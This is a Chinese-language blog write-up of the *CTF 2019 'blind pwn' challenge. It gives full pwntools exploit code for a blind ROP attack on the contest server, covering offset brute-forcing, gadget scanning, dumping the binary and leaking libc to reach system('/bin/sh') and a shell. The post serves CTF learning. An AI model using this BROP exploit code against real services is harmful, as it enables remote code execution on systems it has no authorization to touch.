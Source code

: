 ```yaml
---
layout: post
title:  "starctf blind pwn"
categories: ctf
tags: starctf brop pwn
author: ble55ing
---
```


* content
{:toc}

## starctf blind pwn writeup

blind pwn，顾名思义，没给源文件的题目

首先看一下程序的执行情况，程序输出welcome，然后接收一个字符串，再输出Goodbye。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/first.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/try.png)

这题没有printf，所以应该是没有格式化字符串的，按照这种题目的情况，应该是一个很简单的程序，有一个栈溢出的漏洞。

## 一、填充偏移

第一步，构造padding，找到偏移。

```
def getbuflength():
    i = 0
    while 1:
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('Welcome to this blind pwn!\n')
            sh.send(i * 'a')
            rev = sh.recv()
            sh.close()
            if not rev.startswith('Goodbye!'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

## 二、进入循环

第二步，找到一个能使程序进入循环的地方（main函数开始地址）

main函数开始地址的特征比较明显，就是由多个能够正常执行而且显示welcome的地方。

```
def get_main_addr(length):
    addr = 0x400000
    while 1:
        if addr %0x80==0:
            print hex(addr)
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('pwn!\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            content = sh.recv()
            print content
            sh.close()
            return addr
        except Exception:
            addr += 1
            sh.close()
```

## 三、找到输出函数

已经控制了流程，然后就需要找到方便rop的gadget，16进制程序基本都有的如下所示：

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/brop_gadget.png)

```
def get_brop_gadget(length, main_addr, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            main_addr) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        if not content.startswith('Welcome'):
            return False
        return True
    except Exception:
        sh.close()
        return False
        
def check_brop_gadget(length, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


def find_brop_gadget(length, main_addr):
    addr = 0x400000
    while 1:
        if addr%0x80==1:
            print hex(addr)
        if get_brop_gadget(length, main_addr, addr):
            if check_brop_gadget(length, addr):
                return addr
        addr += 1
```

找到brop gadget之后就应该是使用rdi，根据0x400000的回显结果再去找put函数了。然而找了半天没找到。然后再不停的尝试中找到了当有两个参数输入 的时候，是可以正常获得地址的数据的，于是就使用rsi_rdi_ret的gadget来放两个参数，获得程序的信息（其实是相当于把整个程序相当于都打了出来）。打印的时候注意到是一次打出0x100大小的长度，做完证实应该是write函数（当时并不知道）。

```
def leak(length, rsi_rdi_ret, puts_plt, leak_addr, mainaddr):
    sh = remote('34.92.37.22', 10000)
    payload = 'a' * length + p64(rsi_rdi_ret) + p64(leak_addr) + p64(leak_addr)+ p64(
        puts_plt) + p64(mainaddr)
    sh.recvuntil('pwn!\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelcome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


def leakfunction(length, rdi_ret, puts_plt, mainaddr):
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, mainaddr)
        if data is None:
            continue
        else:
            result += data
            addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

```

然后就获得了这个程序的一部分，将code用ida使用binary格式加载，然后Edit->segment->rebase program更改加载基址，按c就能把16进制串转化为反汇编代码。然后找到打印函数的位置，可以看到它的got表位置，打印出来其中的地址是2b0结尾（然而不知道是什么函数还是没有办法）。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/write.png)

所以还是再分析分析还有啥别的函数没有，由于函数在读入字符的时候，\x00无所谓，\n才结束，所以猜测其为read函数，分析代码，找到其got表地址，为0x601028得到的其地址为。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read1.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read2.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read3.png)

然后把其中的地址打出来，然后找到Libc-Search找到对应的库，然后system(“/bin/sh”)拿到shell

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/final.png)

这中间还有一个小bug，Libc-Search找库的时间太长了程序都alarm结束了，所以中间还去找到了那个对应库然后再回来的

```
sh = remote('34.92.37.22', 10000)
sh.recvuntil('pwn!\n')
payload = 'a' * length + p64(rsi_rdi_ret) + p64(read_got) + p64(read_got)+ p64(puts_plt) + p64(
    mainaddr)
sh.sendline(payload)
data = sh.recvuntil('Welcome', drop=True)
print data
puts_addr = u64(data[:8].ljust(8, '\x00'))
print hex(puts_addr)
#libc = LibcSearcher('read', puts_addr)
libc_base = puts_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
print system_addr
binsh_addr =libc_base +libc.search('/bin/sh').next()
#binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(mainaddr)
sh.sendline(payload)
sh.interactive()
```

另附解题wp的github[https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py](https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py)
